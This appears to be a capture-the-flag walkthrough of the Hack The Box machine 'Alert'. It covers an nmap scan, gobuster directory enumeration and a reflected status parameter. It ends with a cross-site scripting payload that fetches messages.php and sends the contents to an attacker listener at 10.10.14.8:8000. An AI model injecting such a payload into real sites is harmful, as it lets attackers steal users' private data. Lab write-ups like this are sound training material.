






# Alert

Today we are taking a stab at the currently live box "Alert"

```
$ sudo nmap -sV -sC 10.10.11.44

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 14:39 CET
Nmap scan report for 10.10.11.44
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

We have just a pair of ports available:

- 22 running SSH
- 80 running Apache

If we open `http://10.10.11.44` in our browser, we'll be met with a "Page Not Found". Just as we can read in the `nmap` report, the Apache server issues a redirect to `alert.htb`. To make this work in our browser, we'll need to modify the `/etc/hosts` file. This is where the browser comes to "resolve" a hostname to an IP address before heading to the nearest DNS server if it ends up empty handed:

```
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.11.44 alert.htb
```

Now we should be able to visit the page in our browser:



Let's summarize what we have here:

- About Us
  
- Contact Us
  
- Donate
  

The donate page has a single "number" input but it doesn't seem to do anything. But when you enter a email address and some text into the "Contact Us" form, the URL changes to `http://alert.htb/index.php?page=contact&status=Message%20sent%20successfully!`. A new query parameter `status` is added, which also appears on the page:



We can modify this and it also changes on the page:



## More (hidden) pages

```
$ gobuster dir --url http://alert.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://alert.htb/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess (Status: 403) [Size: 274]
/.htpasswd (Status: 403) [Size: 274]
/.hta (Status: 403) [Size: 274]
/css (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/server-status (Status: 403) [Size: 274]
/uploads (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

## Getting the messages

```js
<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.8:8000/?data=" + encodeURIComponent(data));
  });
</script>
```
